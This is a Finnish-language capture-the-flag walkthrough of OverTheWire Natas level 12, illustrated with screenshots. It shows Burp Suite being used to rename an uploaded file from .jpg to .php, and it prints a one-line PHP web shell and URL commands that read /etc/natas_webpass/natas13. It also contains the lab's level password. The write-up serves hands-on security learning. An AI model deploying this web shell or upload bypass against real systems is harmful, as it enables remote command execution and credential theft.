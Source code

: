 # LEVEL 12 - START HERE

natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB

Perus ekana tarkistellaan, mitä tässä on koodattukaan 

![alt text](./kuvat-level11-15/natas12-0.png)

Jotenkin tässä harjoituksessa huomataan PHP-koodikielestä että **JPEG** - kuva tiedosto maksimi on 1KB (MAX_FILE_SIZE).

![alt text](./kuvat-level11-15/natas12-1.png)

Periaatteessa upotin jonkun satunnaisen kuvatiedoston ja testiä ainakin toimii siis et tuli _"There was an error uploading the file, please try again!"_  - mut tämä tapahtuu toisessa uudessa sivuston alla kun jos tulee _error_ ja polku */index.php*. 

![alt text](./kuvat-level11-15/natas12-3.png)

![alt text](./kuvat-level11-15/natas12-4.png)

## Level 12 - 2 - some testing 
**Virallinen testi ja selvitettään level 12 salasansa** <br>
Perus selvittämistä ja etsitään netistä lisää ohjeita ja lisätietoa, mutta siellä on jotakin testejä että upottaa PHP-koodikielisen scriptin. Rakensin simppelin PHP koodikielen pikaisesti joku **Hello world** Kali Linux:seen , `testi1.php`. Huomioina ennen kuin upottaa ton PHP-scriptin testin sinne Natas12 harjoitukseen, niin avaa ohjelmisto työkalu kuin **Burp Suite**. Tämän ohjelma tarjoaa Kali Linux ohjelman alustalla, ja sen versio on suht kattava ettei tarvitse olla mitään _pro / subscribe_ versiot

**Burp Suite**:ssa riittää avaa _History_ välilehden ja seuraa sieltä tarkasti sivussa, kun on upottanut PHP-koodi scriptin Natas 12 levelin alle. Ei ole pakko olla PHP-koodia , että uskon varmasti perus "Hi" tai jotakin tekstiä/sanaa voi syöttää ja ideana se liitteen tiedoston perässä on nimetty **.php**.

```
<?php

echo "Hello World!";

?>

```

![alt text](./kuvat-level11-15/natas12-5.png)

(kuvasta jouduin ottaa uuden screenshotin) siksi verrattuna proxy seurannasta näyttää eri numerolta/tiedoston nimeämiseltä)
![alt text](./kuvat-level11-15/natas12-5.1.png)

Tässä se historiasta näkeekin, mitä aikaisemmassa (ylempi kuvassa), kun upotin ton **testi.php** koodi pätkän ja meni varmasti sinne palvelimen polkuun ja vähä kuin lukaisee sitä scipritä/koodin sisältöä (Burp suitessa). Upotetun jälkeen *testi.php* tiedosto piti tulla, mutta miksi yhtäkkiä antoi jotakin satunnaista nimeämistä */upload/t29....jpg* kuva tiedostoa? 

**Proxy** seurannasta näkee mitä upotin ja tässä alettaan suorittaa seuraavaa pientä operaatio.

![alt text](./kuvat-level11-15/natas12-6.1.png)

Eli seuraavaksi muutettaan tuosta **Proxy** --> *Intercept* - välilehden alta, että muutettaan toi kuvatiedosto (alhaalla oleva nuolenpäästä) muutettuna *jpg* --> *php* tiedostoksi ja sitten vaan **Forward**. Tämä (Forward) tarkoittaa silloin sitä, että kun pyyntö on siepattu, hakkeri/testaaja voi päättää lähetetäänkö se eteenpäin palvelimelle — eli antaa HTTP pyynnön jatkaa eteenpäin.

![alt text](./kuvat-level11-15/natas12-7.png)

HTTP pyynnöstä lähetettyn jälkeen kannattaa päivittää tämä sivusto normi päivitä sivusto niin huomattua se on muuttunut.

![alt text](./kuvat-level11-15/natas12-8.png)

Tämän jälkeen kaksois klikkaa sitä tiedostoa (ylemmän kuvan) mukaista liitettä niin avattuna niin se kertoo tämän **testi.php** skripti/koodi sisällön ja se on _Hello World!_ .

![alt text](./kuvat-level11-15/natas12-9.png)


## Level 12 - 3 - find the password

Nyt tässä kappaleessa alettaan selvittää sitä seuraavan level 13 salasansa ja tässä harjoituksessa tapahtui/tapahtui kaltainen tyyppinen kuin etsitään sitä hakemiston polkua eli **/etc/natas_webpass/natasX** . 


Seuraavaksi loin tällaiset HTTP GET skriptin PHP-koodikielellä ja riittää tekstiin sisälle voi olla jotakin, mutta parhaimmillaan että itse tietää ja mahdollisimman lyhyeksi.
 <br>
`<?php passthru($_GET['Vastaus']); ?>` <br> - Sitten upotetun jälkeen normi "Upload file" ja sen jälkeen huomaa tiedosto on upotettu palvelimeen ja muutettu kuvaksi. 

![alt text](./kuvat-level11-15/natas12-10.png)

![alt text](./kuvat-level11-15/natas12-11.png)


Samanaikaisesti kun tarkistaa **Burp Suite** ohjelman HTTP historiasta että näkee sen saman upotettun tiedoston nimensä (**testi2.php**) ja kuvan tiedoston nimi.

![alt text](./kuvat-level11-15/natas12-12.png)

Tämä on sama kuin ylempi kuva, mutta oikealle lisäsin ton firefox selaimen, että varmistettaan on tosi id.
![alt text](./kuvat-level11-15/natas12-13.png)

**Seuraavaksi**;
Varmistettaan toi "intercept" on otettu ja kaapattu tämä natas 12 level sivuston tietoja, koskevien tuota upotettu *.php* koodia palvelimelle.

![alt text](./kuvat-level11-15/natas12-14.png)


Sitten vaan muuttaa ton **.jpg** kuvan tiedoston **.php**:ksi, ja klikkauksesta **Forward** - niin tämä Burp suite ohjelma lähettää sen HTTP pyynnön sinne Firefox selaimeen.

![alt text](./kuvat-level11-15/natas12-15.png)


Vastaan otettu Burp Suite ohjelman Forward - HTTP pyyntö (ylemän kuvan toiminnasta) ja tänne muuttuu se *.php* tiedosto. 

![alt text](./kuvat-level11-15/natas12-16.png)

Muista välissä sulkea toi **intercept** , koska jos jatkuvasti seurataan pelkkää tätä linkkiä niin ei toimi ja muutettun jälkeen

![alt text](./kuvat-level11-15/natas12-17.png)

Tämä on jotakin tarkistusta, mutta varmuuden vuoksi otin screenshotin.

![alt text](./kuvat-level11-15/natas12-18.png)

Nyt alemmassa kuvassa huomioina toi **URL** kentässä näkyy lisäsin perään *Vastaus=ls* - koska oma testi tiedoston koodi pätkässsä on se **"Vastaus"** sana ja katsotaan löytääkö sen mistään skriptien ja muualta hakemiston alta. Tuloksena antoi jotakin loorem ipsum hebreeta dataa.

```
http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=ls
ls (linux komento $ls)
```

![alt text](./kuvat-level11-15/natas12-19.png)


** Seuraavaksi**:
testataan hakemiston tiedoston URL kuin **=cat /etc/natas_webpass/natas13** - ja tätä sijoittuu sinne URL peräänsä siksi lukee näin:

`http://natas12.natas.labs.overthewire.org/upload/am34u6tos4.php?Vastaus=cat%20/etc/natas_webpass/natas13`
<br><br>

Näin _voila_ saattiin tämän seuraavan level 13 salasansa.

![alt text](./kuvat-level11-15/natas12-20.png)

---

## Level 12 - 3 - Kali Linux steppi START HERE;

Tämä on vain sivullinen Kali linux versio, että vähä kuin mentäisiin käyttöliittymän ja selaimen version kautta, ja aina harjoituksen toinen vaihtoehtoinen valinta.



